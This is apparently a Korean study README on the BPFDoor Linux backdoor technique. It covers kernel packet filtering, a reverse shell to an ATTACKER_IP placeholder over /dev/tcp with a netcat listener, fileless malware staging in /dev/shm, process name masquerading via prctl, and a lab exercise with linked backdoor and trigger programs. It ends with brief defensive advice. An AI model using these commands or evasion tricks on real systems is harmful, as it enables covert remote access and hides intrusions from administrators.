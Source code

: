 # 🛠️ BPF (Berkeley Packet Filter)

> **BPF**는 유저 모드 프로그램이 네트워크 필터에 어태치하여 소켓을 통해 들어오는 데이터를 허용하거나 거부할 수 있게 허용해 주는 기술이다. 즉 실행 중인 프로그램이 사용 중인 네트워크 소켓에 패킷 필터링 룰을 등록할 수 있으며 이를 통해 데이터를 읽거나 알림을 받을 수 있다.

1992년에 개발되어 패킷 필터로 패킷을 분석하고 필터링하는데에 사용되는 in-kernel virtual machine으로 BSD에서 처음으로 도입하였다. 네트워크 분석 도구 (예: tcpdump, wireshark)는 대량의 패킷 중에서 관심 있는 패킷만 빠르게 추출해야 합니다. 모든 패킷을 사용자 공간으로 가져와 필터링하면 성능이 매우 나빠집니다.

따라서 커널레벨에서 먼저 필터링 하고 필요한 패킷만 유저 공간으로 전달하는 BPF가 등장하였다


## 🔑 BPF Backdoor

BPF는 커널 네트워크 스택의 초기단계 socket이전에 필터링이 가능하다. 따라서 포트를 리슨하지 않아도 패킷을 가로채는것이 가능하다

따라서
* 리스닝 포트 없음: 외부에 노출되는 포트 없음
* Fileless: 디스크에 흔적을 남기지않음
* 커널수준에서 특정 패킷만 수신
* RC4 암호화 통신
* iptable 규칙 조작으로 포트 리다이렉션
* 시스템 데몬이름으로 프로세스 위장

### 🔧 특징
* 설치 위치: 리눅스 시스템 (일반적으로 백그라운드 프로세스)
* 동작 방식: eBPF로 패킷 검사 → 특정 시그니처가 들어오면 쉘 실행
* 기능: 명령어 실행, 역방향 쉘, 포트리스닝 없이 명령 수신
* 접근 방법: 비정상적인 TCP/UDP 패킷 이용, 포트 열지 않음
* 탐지 난이도: 매우 어렵다. 대부분의 보안 솔루션으로 탐지 불가

### 🔥 핵심 차별점

* 방화벽 우회: 방화벽이 열려있지 않아도 내부로 접근 가능
* 로그 미기록: 커널 레벨에서 수신 → 시스템 로그에 남지 않음
* 포트리스: 리스닝 포트 없이도 명령 수신 (정적 분석으로도 탐지 어려움)

----

## Reverse Shell

공격자가 피해자의 컴퓨터로 접속하는것이 아닌 피해자의 컴퓨터가 공격자의 컴퓨터에 접속하여 쉘을 제공하는 방식

아웃바운드 인바운드 보안을 우회

```css
[피해자 PC] ➝ 접속 ➝ [공격자 PC]
             쉘을 열어줌
```
### 🧱 2. 전통적 공격과의 차이점

| 방식    | 공격자 역할      | 피해자 역할        | 방화벽 우회 |
| ----- | ----------- | ------------- | ------ |
| 바인드 쉘 | 연결 요청       | 서버처럼 대기(bind) | 어렵다    |
| 리버스 쉘 | 리스너(Listen) | 클라이언트처럼 연결    | 쉬움 ✔️  |


* **Example**
    
1. 공격자
```bash
nc -lvnp 4444
```

2. 피해자

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
# bash -i >& /dev/tcp/127.0.0.1/4444 0>&1 ==> localhost
```

## Memory based FS

리눅스 시스템에서 
```bash
/dev/shm
```
경로는 메모리 기반의 파일 시스템으로 주로 임시데이터 저장이나 처리에 사용된다 -> 디스크에 기록되지않고 메모리상에서만 운영되기에 자주 악용된다

```bash
/bin/rm -f /dev/shm/kdmtmpflush; # 파일이 존재하는 경우 지운다 -> 초기화 느낌
/bin/cp [악성코드] /dev/shm/kdmtmpflush && # 악성코드 바이너리 복사
/bin/chmod 755 /dev/shm/kdmtmpflush && # 파일 실행권한 설정
/dev/shm/kdmtmpflush –init kdmtmpflush && # 악성코드 실행

/bin/rm -f /dev/shm/kdmtmpflush # 원본은 지우기
```

**❓ 왜 `/dev/shm` 인가?**

1. 🧠 메모리 기반이라 흔적이 디스크에 남지 않음
    * /dev/shm은 RAM 기반 임시 파일시스템 (tmpfs)입니다.
    * 파일을 여기에 복사하고 실행하면, 디스크 I/O 없이 메모리에서 직접 실행됩니다.
    * 실행 후 삭제하면 디스크 포렌식, 로그 기반 탐지에 흔적을 남기지 않음.
2. 🕵️ 디스크 감시 탐지 우회 
    * /dev/shm은 일반적으로 덜 감시되므로, 여기에 복사하여 실행하면 탐지 확률이 줄어듦.


## 🪖 Camouflage

정신히 있는 관리자라면 가끔씩 어떤 프로세스들이 돌아가고 있는지 확인을 하긴 할 것이다. 따라서 해커들은 그럴듯한 이름을 통해 프로세스를 숨기고자 한다
이는 `prctl()` 함수를 통해 할 수 있다

```cpp
char *self[] = {
    "/sbin/udevd -d",
    "/sbin/mingetty /dev/tty7",
    "/usr/sbin/console-kit-daemon --no-daemon",
    "hald-addon-acpi: listening on acpi kernel interface /proc/acpi/event",
    "dbus-daemon --system",
    "hald-runner",
    "pickup -l -t fifo -u",
    "avahi-daemon: chroot helper",
    "/sbin/auditd -n",
    "/usr/lib/systemd/systemd-journald"
};
```

| 위장 문자열                     | 실제 용도           | 왜 위장할까?                |
| -------------------------- | --------------- | ---------------------- |
| `/sbin/udevd -d`           | Udev 장치 관리자     | 항상 실행되므로 눈에 띄지 않음      |
| `/sbin/mingetty /dev/tty7` | 터미널 로그인 데몬      | tty 단말 관련, 익숙한 이름      |
| `console-kit-daemon`       | 로그인/세션 관리 데몬    | GUI 시스템에서 흔함           |
| `dbus-daemon --system`     | IPC 메시지 버스 데몬   | 항상 실행됨                 |
| `hald-runner`              | HAL 하드웨어 추상화 데몬 | 요즘은 사용 안되지만 남아 있을 수 있음 |
| `auditd -n`                | 보안 감사 데몬        | 권한 있는 데몬, 의심 안 받음      |
| `systemd-journald`         | 시스템 로그 기록       | 완전한 핵심 프로세스처럼 보임       |


```cpp
#include <stdio.h>
#include <sys/prctl.h>
#include <string.h>

int main() {
    const char *new_name = "unsuspicious-name";
    
    if (prctl(PR_SET_NAME, (unsigned long)new_name, 0, 0, 0) == -1) {
        perror("prctl");
        return 1;
    }
    // pid 확인 (ps aux | grep '^roh')
    // 변경된 이름 확인 (ps -o comm -p <pid>)
    while(1) {
        sleep(10);
    }

    return 0;
}
```

----

## 🏃 실습

리눅스 머신에서 다음 두파일을 컴파일 [bpf](./light-bpf.c) [trigger](./light-trigger.c) 

쉘을 여러개 준비하고 공격자 역할을 할 쉘에서 `nc -lvnp 4444` 명령어를 사용해 리버스 쉘 연결을 대기한다

한 쉘에서는 관리자 권한으로 [bpf](./light-bpf.c) 실행 한쉘에서는 [trigger](./light-trigger.c) 트리거를 작동한다 이후 리버스 쉘 연결이 되는 모습을 확인할수 있다


## 💭 고찰

주기적으로 실행중인 프로세스를 점검해보자

아웃바운드 설정도 중요하다

그럼에도 털릴수있으니 중요 데이터는 암호화하자



----
Credits

[gwillgues](https://github.com/gwillgues/BPFDoor/)
[pjt3591oo](https://github.com/pjt3591oo/bpfdoor)